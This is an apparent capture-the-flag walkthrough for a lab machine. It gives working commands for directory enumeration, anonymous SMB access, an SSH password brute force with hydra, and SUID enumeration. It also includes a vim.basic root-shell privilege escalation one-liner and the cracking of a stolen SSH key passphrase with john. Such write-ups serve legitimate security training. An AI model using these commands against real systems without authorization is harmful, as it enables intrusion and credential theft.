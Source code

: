 ***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to GTFObins we can do a PE with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the answer for the last question.

******

There is another way to gain root access without exploiting the misconfigured SUID file which is to get kay's ssh private key from her folder /home/kay/.ssh

We should do this before using the private key

	chmod 600 kay_id_rsa  

When we try to ssh with the following command 

	ssh -i kay_id_rsa kay@10.10.19.202
	Enter passphrase for key 'kay_id_rsa': 

It is asking for a passphrase, let's brute force the passphrase by first doing ssh2joh

	ssh2john kay_id_rsa > ssh2john.txt


It's time to brute force the passphrase of the key with john

	john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
	
 and then ssh to the target and read the pass.bak file for answer.	
